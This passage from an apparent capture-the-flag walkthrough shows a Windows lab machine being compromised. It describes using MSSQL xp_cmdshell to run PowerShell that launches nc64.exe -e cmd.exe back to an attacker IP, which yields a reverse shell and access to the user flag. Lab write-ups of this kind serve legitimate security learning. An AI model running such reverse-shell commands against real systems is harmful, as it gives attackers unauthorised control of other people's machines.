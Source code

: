  - As you can see in the previous image that we typed the command in the left tab and we find in the right tab that the target machine indeed performed the request .

- Now, we can bind the cmd.exe through the nc to our listener:

  ```py
  SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
  10.10.14.9 443"
  ```

- Finally looking back at our netcat listener we can confirm our reverse shell and our foothold to the system:

- ![can't display an image](images/reverseshell.png)
  
  - You can see in the previous image that we have the reverse shell in the right-bottom tab .

- The user flag can be found in the user's Desktop:
- ![can't display an image](images/user_flag.png)
  